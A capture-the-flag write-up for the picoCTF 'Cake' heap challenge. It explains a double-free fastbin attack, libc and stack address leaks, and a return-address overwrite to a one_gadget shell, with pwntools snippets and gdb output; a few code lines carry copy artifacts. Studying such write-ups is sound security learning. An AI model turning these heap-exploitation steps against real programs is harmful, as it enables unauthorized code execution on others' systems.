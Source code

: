 # Cake
**Category:** Binary Exploitation

**Points:** 900

**Description:** 
Now that you're a professional heap baker, can you pwn this for us? It should be a piece of cake. Connect with `nc 2018shell2.picoctf.com 54086`. [libc.so.6](https://2018shell2.picoctf.com/static/397794d1487f1c94583fbf0437799b5d/libc.so.6)

----------

## Solution

### Notes
I got a lot of core dumps during this process of trial and error, and the following made my debugging life so much easier.

* Make sure the provided `libc` is *NOT* in the current directory; you will actually lose debug symbols by doing so. Just use `libc.so.6` from the system path on the shell server.

* Also, having a copy of `malloc.c` from `glibc` version 2.23 is very helpful.

### Initial Observations

Like other picoCTF binary exploit problems, compiler optimization is disabled. Given the relatively simple logic of the program, decompiling by hand isn’t too bad. You can find the source code [here](https://github.com/jespiron/picoCTF-2018/blob/master/binary/cake/cake.c), of which I omitted some parts.

Upon serving the same cake twice, we find a crash due to a double-free bug. This gives us the opportunity for a `fastbin` attack.

Our exploit will have something to do with the global variable `shop`, the `0x20` byte memory chunks allocated by `make()`, and `inspect()`.

### Leaking the return address
We first need to get the `libc` address. After that, we can get the stack address via `libc.environ`, according to [this guy](https://github.com/Naetw/CTF-pwn-tips).

This program uses `stdin`, which points to `_IO_2_1_stdin_` in libc.

```
(gdb) x/4gx 0x6030d0
0x6030d0 <stdin@@GLIBC_2.2.5>:  <b>0x00007ffff7dd18e0</b>      0x0000000000000000
0x6030e0 <shop>:        0x0000000000000000      0x0000000000000000
(gdb) x/2gx 0x00007ffff7dd18e0
0x7ffff7dd18e0 <<b>_IO_2_1_stdin_</b>>:        0x00000000fbad2088      0x0000000000000000
```

We have indirect control over `shop + 0x00` (total sales) and `shop + 0x08` (number of customers waiting).

Initially, I tried `shop + 0x00`. I got the leak, but wound up having a corrupted chunk in `fastbin` I lost control of. As a result, the subsequent `malloc` calls resulted in a crash. Thus, we will use `shop + 0x08` instead.

I used the following code to get the address of the `cake` symbols and the pre-ASLR addresses of the `libc` symbols.

```python
cake = ELF(“./cake”)

shop = cake.symbols['shop']
stdin = cake.symbols['stdin']

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

file_IO_2_1_stdin_ = libc.symbols['_IO_2_1_stdin_']
file_environ = libc.symbols['environ']
file_libc_text = libc.get_section_by_name('.text').header.sh_addr
```

First, we prepare a fake chunk for `fastbin`. The size of all of the malloc requests are hardcoded as 0x10 bytes and fall into `fastbin[0]`. Hence, we must keep `shop + 0x8` in the range of `0x20`-`0x2f`. We're allowed up to `0x2f` because `malloc` ignores the lower 4 bits when allocating from `fastbin`.

For every line of input to `main`, there is a $`\frac{1}{3}`$ chance of receiving a new customer. Therefore, we will need at least `96` arbitrary commands to get `0x20` customers. 
However, due to the `serve()` command, we must take into account of decrementing the customer headcount.

Through some trial and error, I used 108 `“T”` commands, but any other invalid cake command would work too. I didn’t use the valid `“W”` command, since it called `spin()`, which took up time.

```python
conn.send("T\n" * 108)
for i in range(109):
    wait_prompt()
```

Next, we follow the logic in `fastbin_dup.c` from https://github.com/shellphish/how2heap.

```python
c0 = make_cake(0x0, p64(0x0))  # chunk_0
c1 = make_cake(0x0, '')  # chunk_1
serve(c0)  # fastbin[0] -> chunk_0
serve(c1)  # fastbin[0] -> chunk_1 -> chunk_0
serve(c0)  # fastbin[0] -> chunk_0 -> chunk_1 -> chunk_0
chunk_1 = inspect(c0)
chunk_0 = inspect(c1)
```

Third, we link our fake chunk `shop` into `fastbin`.
```python
c2 = make_cake(shop, p64(0x0))   # malloc return chunk_0
c3 = make_cake(0x0, '')          # malloc return chunk_1
c4 = make_cake(shop, p64(0x21))  # malloc return chunk_0
```

As shown in the debugger, `shop` is now in `fastbin`. Because the debug symbols are available, we can just use C-like syntax to check `fastbin`'s values.

```
(gdb) print main_arena.fastbinsY[0]
$3 = (mfastbinptr) 0x6030e0 <shop>
```

Consequently, `malloc` will return `shop + 0x10` when we make our next `cake` request.

We set its name to `"stdin"`. This will place the address of `"stdin"` into `shop + 0x18`, which corresponds to `cake` 1.

```python
c5 = make_cake(shop, p64(stdin))
_IO_2_1_stdin_ = inspect(1)  # read the address from cake #1

libc_reloc_delta = _IO_2_1_stdin_ - file_IO_2_1_stdin_
libc_text = libc_reloc_delta + file_libc_text
libc_environ = libc_reloc_delta + file_environ
```
We set its price to `shop` to create a circular singly linked list (depicted below).
```
   shop + 0x00 -> value doesn’t matter
   shop + 0x08 -> must be in the range of 0x20 ~ 0x2f
   shop + 0x10 -> fd (next free chunk) points to shop!
   shop + 0x18 -> use for leaking
```

Let’s look at what `fastbin` has now. As expected, `fastbin[0]` has `chunk_0`’s address, so we need the `0x21` in `c4 = make_cake(shop, p64(0x21))` to pass the `malloc` chunk size validation for making `c6` later.

```
(gdb) print main_arena.fastbinsY[0]
$1 = (mfastbinptr) 0x156e020
(gdb) x/2gx 0x156e020
0x156e020:      0x00000000006030e0      0x0000000000000021
(gdb) x/8gx &shop
0x6030e0 <shop>:        0x0000000000000000      0x0000000000000021
0x6030f0 <shop+16>:     0x00000000006030e0      0x00000000006030d0
0x603100 <shop+32>:     0x000000000156e020      0x000000000156e040
0x603110 <shop+48>:     0x000000000156e020      0x00000000006030f0
```
Let’s get the corrupted `chunk_0` off of `fastbin`. It is corrupted because it points to `chunk_0`’s user space instead of `malloc`’s chunk header (`0x10` bytes ahead of the user space).

We make `c6`, which succeeds thanks to the `0x21` when making `c4`.

Because of the corruption, `malloc` will return `chunk_0 + 0x10` for making `c6`, which is the header of `chunk_1`. We shouldn't change `chunk_1`’s header, so we use its original value of `0x21` in order for another subsequent `malloc` (not mentioned here) to succeed.

```python
c6 = make_cake(0x0, p64(0x21))  # chunk_0 + 0x10
```

Next, we use `libc.environ` to leak the stack address. Again, we utilize the `fastbin` trick to add our faked circular chunk `shop` into `fastbin`. `shop + 0x10` has the desired value, 
`shop`, pointing to its own chunk header. Therefore, after this round, `fastbin[0]` will return `shop + 0x10` so as long as `shop + 0x8` remains in the range of `0x20`-`0x2f`.

### Redirecting to one_gadget by changing the return address of the main function

Let’s take a look at the `make()` function again. It first overwrites the second 8-byte block of the newly allocated memory for `name`, then the first 8-byte block for `price`.

Note that it doesn’t keep the address of the newly allocated memory in a register. It always reads from memory due to compiler optimization being disabled. This gives us the opportunity to overwrite the memory for holding the newly allocated address during the first 8-byte read for `name`. When the program reads in the price, it will write into the location we set for the `name`.

```
   0x0000000000400c0b <+207>:   mov    -0x28(%rbp),%rax
   0x0000000000400c0f <+211>:   mov    -0x14(%rbp),%edx
   0x0000000000400c12 <+214>:   movslq %edx,%rdx
   0x0000000000400c15 <+217>:   add    $0x2,%rdx
   0x0000000000400c19 <+221>:   mov    (%rax,%rdx,8),%rax
   0x0000000000400c1d <+225>:   add    $0x8,%rax
   0x0000000000400c21 <+229>:   mov    $0x8,%esi
   0x0000000000400c26 <+234>:   mov    %rax,%rdi
   0x0000000000400c29 <+237>:   callq  0x400a99 <fgets_eat>
...
   0x0000000000400c3d <+257>:   mov    -0x28(%rbp),%rax
   0x0000000000400c41 <+261>:   mov    -0x14(%rbp),%edx
   0x0000000000400c44 <+264>:   movslq %edx,%rdx
   0x0000000000400c47 <+267>:   add    $0x2,%rdx
   0x0000000000400c4b <+271>:   mov    (%rax,%rdx,8),%rbx
   0x0000000000400c4f <+275>:   mov    $0x0,%eax
   0x0000000000400c54 <+280>:   callq  0x400a40 <get>
   0x0000000000400c59 <+285>:   mov    %rax,(%rbx)0x603110 <shop+48>:     
```
For this to work, we need to make sure the new `cake` is stored in slot 1 so that `shop + 0x18` will point to `shop + 0x10` (remember that we tricked `malloc` to always return `shop + 0x10`).

The second 8-byte block of `shop + 0x10` is `shop + 0x18`. As a result, reading in `name` will overwrite slot 1 itself.
To achieve this, just set `shop + 0x18` to `NULL`. We can do this because `malloc` always returns `shop + 0x10`.

```python
c11 = make_cake(shop, p64(0))
```

We set the return address of the `main` function to the `one_gadget` address* in `libc`. Once we close the shop, we get into the shell.

```python
c1 = make_cake(one_gadget, p64(main_return_address))
conn.send("C\n")
```

*I found the `one_gadget` address using [this handy tool](https://github.com/david942j/one_gadget)! I picked `0x45216` because the `main` function returns `0`, thus satisfying the stated `one_gadget` constraint of `rax` being `null`.

